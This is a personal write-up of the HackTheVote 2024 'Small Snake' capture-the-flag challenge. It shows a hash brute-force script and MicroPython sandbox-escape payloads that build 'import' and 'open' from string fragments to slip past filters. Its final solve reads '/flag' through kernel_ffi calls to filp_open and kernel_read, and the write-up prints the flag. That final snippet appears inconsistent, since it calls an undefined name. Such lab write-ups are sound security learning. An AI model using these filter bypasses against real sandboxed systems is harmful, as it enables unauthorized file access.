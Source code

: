 ```yaml
---
title: "HackTheVote 2024 - Small Snake"
date: 2024-11-05
description: "Python forensic ?!?!?"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://avatars.githubusercontent.com/u/9358837?v=4'
translationKey: 'media'
stage: 'budding'
toc: true
---
```


## Introduction

This chall is kind of "forensic" but actually its not XD, takes me almost 2 days and "almost" solve this, fun and its worth a try!
You can deploy the chall [here](https://github.com/RPISEC/HackTheVote/tree/master/2024/forensics/small-snake).

## Overview

Firstly, you need a python script to bruteforce the input for initializing the challenge (ofc i used ChatGPT for that)

![](https://github.com/hsw109/cdn/commons/ctfs/hackthevote2024/htv3.png)

Here is the script

```python
import hashlib
import sys

# Function to find valid input with a given base string
def find_valid_input(base_string):
    input_counter = 0
    while True:
        input_str = str(input_counter)
        combined_string = base_string + input_str
        sha256_hash = hashlib.sha256(combined_string.encode()).hexdigest()
        if sha256_hash.endswith('000000'):
            return input_str, sha256_hash
        input_counter += 1

# Check if base string was provided in command-line arguments
if len(sys.argv) < 2:
    print("Usage: python script.py <base_string>")
    sys.exit(1)

# Get base string from command-line arguments
base_string = sys.argv[1]

# Find a valid input with the specified base string
valid_input, resulting_hash = find_valid_input(base_string)
print(f"Input: {valid_input}, SHA-256 Hash: {resulting_hash}")
```


![](/commons/ctfs/hackthevote2024/htv2.png)

At first glance, ofc we dunno what is this shit, after typed randomly sth that i knew that is python interpreter console.

![](/commons/ctfs/hackthevote2024/htv4.png)

Then, after spending all the morning to find out what i need to do, i dive into all [builts-in python function](https://docs.python.org/3/library/functions.html), then i have that 2 key functions: `eval` and `exec` that helps us bypass the validation, and also the environment variable. I've spent all the day to test everything that i could do:

```python
> var = '_'
> var2 = 'o'+'p'+'e'+'n'
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'
> var3 = var + var + var4 +var+var
> var5 = var3 + "('builtins')."
> var1 = "with " + var5 + var2 + "('/flag', 'r') as f: result = f.read(); print(result)"
> print(var1)
 with __import__('builtins').open('/flag', 'r') as f: result = f.read(); print(result)
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute '__exit__'
```
This is the payload that i trying to do, but that not that simple, after diving more deeper, i found that this console using micropython and all modules that available by the [commit](https://github.com/micropython/micropython/commits/master/?since=2021-11-17&until=2021-11-17)

```python

var = 'he'+'lp()'
> eval(var)
 Welcome to MicroPython!

 For online docs please visit http://docs.micropython.org/

 Control commands:
   CTRL-A        -- on a blank line, enter raw REPL mode
   CTRL-B        -- on a blank line, enter normal REPL mode
   CTRL-C        -- interrupt a running program
   CTRL-D        -- on a blank line, exit or do a soft reset
   CTRL-E        -- on a blank line, enter paste mode

 For further help on a specific object, type help(obj)

> var="he"+"lp('modules')"
> eval(var)
 __main__          kernel_ffi        uctypes           ustruct
 _thread           micropython       uerrno            usys
 builtins          uarray            uio               utime
 gc                ucollections      umachine
 Plus any modules on the filesystem

```

module `uio` seems suspicious, but still not works :(

```python
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' uio'
> var2 = 'o'+'p'+'e'+'n'
> exec(var4)
> var1 = "content = uio." + var2 + "('/flag', 'r').read()"
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute 'read'


 > var3 = 'for line in uio.' + var2 + '("../../../..flag", "r"): print(line)'
> print(var3)
 for line in uio.open("../../../..flag", "r"): print(line)
> exec(var3)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 TypeError: 'NoneType' object isn't iterable

```

I find everything inside each module, even `kernel_ffi` (I thought that everything here just relevant to the hardware, i dont know that is the thing brings us to the flag TvT):


```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
> exec(var4)
> var = 'd'+'ir'
> eval(var+'(kernel_ffi)')
 ['__class__', '__name__', 'bytes', 'str', 'KP_ARGS_MODIFY', 'KP_ARGS_WATCH', 'KP_REGS_MODIFY', 'KP_REGS_WATCH', 'Symbol', 'auto_globals', 'callback', 'current', 'kmalloc', 'kprobe', 'p16', 'p32', 'p64', 'p8', 'symbol']

```

Before that, somehow i leaked the bios of the micropython kernel, i also tried to find this BIOS's (vulnerability)[https://github.com/advisories/GHSA-7533-c28p-jp9p] but stills hopeless or i didnt found the right things :) 

```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
var = 'd'+'ir'
 eval(var+'(builtins.OSError.' +var1+var1+'class'+var1+var1+')')



 micropython.mem_info()
 mem: total=43516, current=16080, peak=17581
 stack: 1136 out of 15204
 GC: total: 8291328, used: 16928, free: 8274400
  No. of 1-blocks: 77, 2-blocks: 10, max blk sz: 32, max free sz: 258570




 fatal error 'nlr_jump_fail', killing current task 'a'
[  180.844640] Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000
[  180.846569] CPU: 0 PID: 1 Comm: a Tainted: G           O      5.4.0 #1
[  180.847441] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.2-debian-1.16.2-1 04/01/2014
[  180.848628] Call Trace:
[  180.850390]  dump_stack+0x50/0x70
[  180.850623]  panic+0xf6/0x2b7
[  180.850924]  do_exit.cold+0x4e/0xfb
[  180.856332]  die+0x4f/0x50 [mpy]
[  180.858949]  ? nlr_jump_fail+0xc/0x10 [mpy]
[  180.859861]  ? nlr_jump+0x1e/0x57 [mpy]
[  180.860036]  ? mp_raise_msg+0x12/0x20 [mpy]
[  180.860367]  ? m_malloc_fail+0x20/0x40 [mpy]
[  180.861050]  ? m_malloc+0x44/0x50 [mpy]
[  180.861231]  ? vstr_init+0x20/0x30 [mpy]
[  180.861406]  ? device_ioctl+0x39/0x80 [mpy]
[  180.862574]  ? do_vfs_ioctl+0x3f0/0x650
[  180.863235]  ? ksys_ioctl+0x59/0x90
[  180.863489]  ? ksys_read+0x5a/0xd0
[  180.864077]  ? __x64_sys_ioctl+0x11/0x20
[  180.864382]  ? do_syscall_64+0x43/0x110
[  180.864671]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  180.869655] Kernel Offset: 0x16400000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[  180.876970] ---[ end Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000 ]---
```

I also try possible payload on [HackTrick](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#read-file-with-builtins-help-and-license), but stills not works

```python

var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
exec(var4)
var = '_'
var1 = 'he'+'lp'
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+')')
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+ '["license"]' ')')
=> KeyError: license
```

## Finish exploitation

Finally, i almost reach the crucial clue in the [micropython](https://github.com/Jongy/micropython/blob/linux-kernel/ports/linux-kernel/main.c) github (i remember that i just skimming all that shit, i thought that its just the hardware TvT)

Then after the contest ended, i know that the `symbol` method on modules `kernel_ffi` is used to call the exported functions or variables that are accessible for use by loadable kernel modules or other kernel components. There are function `filp_open` is a Linux kernel function used to read from a file represented by a file structure (struct file) in kernel space.


```python
    var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
    exec(var4)
    func = "filp_o"+"pen"
    ffi = kernel_ffi.symbol(func)
    file_path = "/flag"; flags = 0; mode = 0
    var2 = "file = filp_o"+"pen(file_path, flags, mode)"
    exec(var2)
    buffer = kernel_ffi.kmalloc(4096)
    kernel_read = kernel_ffi.symbol("kernel_read")
    pos = 0
    bytes_read = kernel_read(file, buffer, 4096, pos)
    data = kernel_ffi.str(buffer)
    print(data)
```

{{< epigraph >}}
flag{its_like_rust_in_the_kernel_but_better}
{{< /epigraph >}}

GGWP, that was amazing challenge, thank to the author `wait_what` from RPISEC for this chall (i still dont know why its even forensic.)
